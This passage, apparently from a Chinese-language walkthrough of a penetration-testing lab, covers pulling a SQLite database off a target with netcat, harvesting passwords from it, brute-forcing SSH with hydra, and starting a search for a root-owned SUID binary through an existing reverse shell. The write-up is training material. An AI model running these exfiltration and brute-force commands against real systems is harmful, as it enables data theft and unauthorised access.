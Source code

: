 ![截屏2021-08-12 下午6.27.59](https://tva1.sinaimg.cn/large/008i3skNly1gte6l2fss0j61fk08eq3y02.jpg)



我们把用户名拷贝下来,放进`users.txt`

用户名有了,我们怎么把数据库文件下载下来呢?

我们知道,nc的本质就是数据的传输.我们不妨把文件当作输入,在kali中接收并导入本地文件,这样不就相当于是下载文件了吗~

攻击机:`nc -lp 6666 > database.sql`

靶机:    `nc 10.0.0.12 6666 < database.sql`

注意有一个小技巧,不要从靶机处断开nc,这样会中断之前的反弹shell!!从攻击机处中断,这样另一端自动就中断了~

我们来查看一下数据库文件的类型

`file database.sql`

![截屏2021-08-12 下午6.39.36](https://tva1.sinaimg.cn/large/008i3skNly1gte6x5xa9zj60yc03qgmj02.jpg)

`file`指令可用于查看文件的类型

可见,这是一个sqlite3的数据库文件

那我们就用kali自带的sqlite3管理软件打开吧~

![截屏2021-08-12 下午6.38.31](https://tva1.sinaimg.cn/large/008i3skNly1gte6w1sgvuj60qy0ho42b02.jpg)

可见,有一个code表,表内有password字段,自段的内容有四个像密码的东西,我们把密码放入`pass.txt`

结合我们一开始扫描到的ssh服务,我们可以来尝试爆破ssh啦~

`hydra -L users.txt -P pass.txt 10.0.0.13 ssh`

扫描的结果却不尽人意,居然一个都没匹配上?!

![截屏2021-08-12 下午6.45.54](https://tva1.sinaimg.cn/large/008i3skNly1gte73qe94aj60lq00wdfu02.jpg)

在渗透测试的过程中,我们往往看似收集到了很多敏感信息,进行下一步渗透时,却往往遭遇挫折.

虽然我们这一次的ssh爆破没有成功,但是这并不妨碍我们的渗透思路,这一步的测试是有意义的!

### 	 换种思路

前面我们已经获得了反弹shell,既然不能通过爆破密码与用户从外部攻破,那么我们就尝试着从内部瓦解它吧!

![截屏2021-08-12 下午6.50.28](https://tva1.sinaimg.cn/large/008i3skNly1gte78hrtwhj61pa0i0aey02.jpg)

四处逛逛,往上层目录看看.

发现了这么多文件,其中有一个文件特别吸引我的眼球——`update_cloudav`和`update_cloudav.c`

我猜测,对于同名的文件,前者是由后者编译而来的.

特别的,这个可执行文件的属性中携带了`s`,即`suid`,会以文件拥有者的权限执行此程序.

嘿!你说多巧!这个文件的拥有者刚好是root!!

这里附送大家一个寻找suid文件且文件拥有者为root的指令
